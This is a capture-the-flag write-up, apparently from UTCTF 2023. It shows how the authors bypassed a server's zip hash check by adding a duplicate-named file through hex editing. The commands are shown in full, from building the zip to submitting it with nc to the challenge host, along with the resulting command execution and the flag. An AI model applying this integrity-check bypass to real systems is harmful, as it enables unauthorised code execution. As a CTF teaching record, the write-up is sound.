 Since the verification script checks the md5 hash of the first file with a given name, we figured we might want to have multiple files with the same name in the zip.

```
commands
├── c0mmand.txt
├── command.txt
└── README.md
```

```
$ cat commands/c0mmand.txt
ls
```

```
$ zip commands.zip commands/*
updating: commands/command.txt (stored 0%)
updating: commands/README.md (deflated 20%)
  adding: commands/c0mmand.txt (stored 0%)
```

Next, we replaced the two instances of `c0mmand` in the zip file with `command` in a hex editor.

<img alt="Replacing `0`s with `o`s" src="/writeups/2023/utctf/media/c0mmand.png" width="600" />

```
echo (base64 -w 0 commands.zip) | nc betta.utctf.live 12748
```

Upon submitting this to the server, we found that the directory contained a `flag.txt`. We then repeated this process, changing the contents of `c0mmand.txt` to `cat flag.txt`

```
$ echo (base64 -w 0 commands.zip) | nc betta.utctf.live 12748
utflag{https://youtu.be/bZe5J8SVCYQ}
```
